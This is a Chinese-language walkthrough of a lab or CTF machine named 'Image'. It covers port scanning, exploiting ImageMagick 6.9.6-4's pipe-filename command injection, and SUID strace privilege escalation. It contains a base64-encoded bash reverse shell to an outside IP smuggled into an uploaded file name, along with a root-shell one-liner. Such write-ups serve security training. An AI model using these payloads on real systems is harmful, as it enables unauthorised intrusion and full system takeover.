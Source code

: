 ```yaml
---
description: 中等 / ImageMagick 6.9.6-4 / shell命令注入 / SUID提权
---
```


# ✔️ Image

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA image 192.168.210.178 --open
```

<figure><img src="../.gitbook/assets/1 (14).png" alt=""><figcaption></figcaption></figure>

* 首先查看80端口的Web页面进行检查，是一个有上传功能的界面，猜测可能是一个文件上传漏洞：

<figure><img src="../.gitbook/assets/2 (12).png" alt=""><figcaption></figcaption></figure>

* 根据尝试上传图片的返回信息，目标系统只接受后缀为JPEG和PNG格式的图片文件：

<figure><img src="../.gitbook/assets/3 (13).png" alt=""><figcaption></figcaption></figure>

* 上传成功一个测试图片后，发现返回了当前正在运行的ImageMagick的版本号：6.9.6-4

<figure><img src="../.gitbook/assets/4 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索公开已知的漏洞发现有一个命令注入的漏洞：

<figure><img src="../.gitbook/assets/5 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据漏洞描述，得知打开任何以管道符（|）字符开头的图像文件时，ImageMagick将执行文件名剩余部分的命令，这意味着构建一个以管道符开头且包含反弹shell的图片文件名后，再次上传即图片可触发该漏洞：

<figure><img src="../.gitbook/assets/6 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/7 (15).png" alt=""><figcaption></figcaption></figure>

```bash
# 构建过程
cp test.png '|test.png'
echo -n 'bash -i >& /dev/tcp/192.168.45.234/4444 0>&1' | base64
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNC80NDQ0IDA+JjE=| base64 -d | bash`".png'
```

<figure><img src="../.gitbook/assets/8 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (15).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 本机做好监听即可成功获取到shell：

<figure><img src="../.gitbook/assets/10 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (14).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举一下：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/12 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据枚举结果发现有很多文件设置了SUID位，运气很好，第一个strace就在GTFOBins中找到了对应可以提权的命令：

<figure><img src="../.gitbook/assets/13 (14).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接使用该命令提权成功，ROOT!

```bash
strace -o /dev/null /bin/sh -p
```

<figure><img src="../.gitbook/assets/14 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/16 (9).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例属于简单级别的机器，端口开放的少，不用太多枚举就能锁定漏洞，构建文件名需要多次尝试但其利用过程简单。提权过程也很简单，常规的手动枚举即可找到可以利用的点。
{% endhint %}
